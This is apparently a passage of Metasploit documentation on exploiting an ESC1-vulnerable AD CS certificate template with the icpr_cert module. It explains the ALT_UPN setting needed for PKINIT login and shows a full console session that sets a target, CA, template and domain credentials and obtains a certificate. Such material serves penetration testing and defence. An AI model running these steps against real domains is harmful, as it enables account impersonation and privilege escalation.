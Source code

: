 **IMPORTANT**: Note that we also set the `ALT_UPN` field here. This is needed when doing PKINIT authentication via the `pkinit_login` module as without this field the certificate that is generated will
not be able to be used by the `pkinit_login` module to authenticate to the domain. This is because ESC1 templates have the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag set on them so we need to
specify the `ALT_UPN` field otherwise we won't generate a valid cert for authentication.

Finally we will run the module:

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN normal@daforest.com
ALT_UPN => normal@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN        normal@daforest.com          no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC1-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normaluser                   no        The password for the specified username
   SMBUser        normal                       no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
```